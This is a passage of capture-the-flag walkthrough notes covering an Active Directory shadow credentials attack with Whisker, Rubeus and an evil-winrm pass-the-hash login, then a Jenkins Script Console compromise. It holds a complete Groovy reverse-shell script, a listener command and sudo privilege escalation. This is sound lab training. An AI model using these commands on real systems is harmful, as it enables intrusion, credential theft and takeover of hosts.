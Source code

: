 - `hr` user has the `GenericWrite` permission over the administrator object visible on the CN attribute, Later, we can compromise the account with that privilege by updating the `msDS-KeyCredentialLink` with a certificate - this vulnerability is called `SHADOW CREDENTIALS ATTACK`
- now we use a tool called `Whisker` to carry out the attack and run the command :
> `.\Whisker.exe add /target:vansprinkles` - we set target to what we saw from enumeration process
- now it will give us the certificate necessary to authenticate the impersonation of the vulnerable user with a command ready to be launched using a tool called `Rubeus`.
- The core idea behind the authentication in AD is using the Kerberos protocol, which provides tokens (TGT) for each user. A TGT can be seen as a session token that avoids the credentials prompt after the user authentication.
- now using `Rubeus`, we can ask for TGT of a vulnerable user by providing the certificate we obtained from `whisker` .
- additionally, an NTLM hash of user account can be displayed in console output, which can be used for `pass-the-hash attack`.
- now from `whisker` we obtain the command for `rubeus` to ask for TGT , and on running it we get the NTLM hash , now with this NTLM hash we can do `pass-the-hash` attack 
- we can ow use `Evil-WinRM`, a tool for remotely managing Windows systems abusing the Windows Remote Management (WinRM) protocol.
> `evil-winrm -i 10.10.233.116 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3`
- Now we get reverse shell so go to `C:\Users\Administrator\Desktop\flag.txt` and we get the flag 
	FLAG - **THM{XMAS_IS_SAFE}**
---
## Day 12 :

#### *Defense in Depth*

- The vulnerable machine is Ubuntu running a `Jenkins service`, It contains misconfigurations and has been implemented with poor or simply nonexistent security practices.
- we access jenkins on `firefox`on default port `8080` , go to `manage jenkins` and click on `Script Console` , script console accepts `Groovy` which is a type of `Java Programming language` 
- we try for a reverse shell using this `Groovy` script :
```
String host="attacking machine IP here"; 
int port=6996; 
String cmd="/bin/bash"; 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- now run the script and setup `nc -lvnp 6996` and we get the reverse shell, now head over to `/opt/scripts/backup.sh` and we find user `tracy` credentials, analyzing the script, we can say that it is a simple implementation of backing up the essential components of Jenkins and then sending it to the folder `/home/tracy/backups` via _scp_.
- here ssh login might have taken place so we will try to do ssh login with those credentials, then do `sudo -l` to see what privilege we have and it says we have `ALL:ALL` privilege so we can directly get root shell by doing `sudo su` and then go to `/root/flag.txt` and we find root flag.
- now to remove privileged access for `tracy`, we remove that user from `sudoers` group by doing 
> `sudo deluser tracy sudo` - now if we try to do `sudo -l` after relogin we dont get sudo access
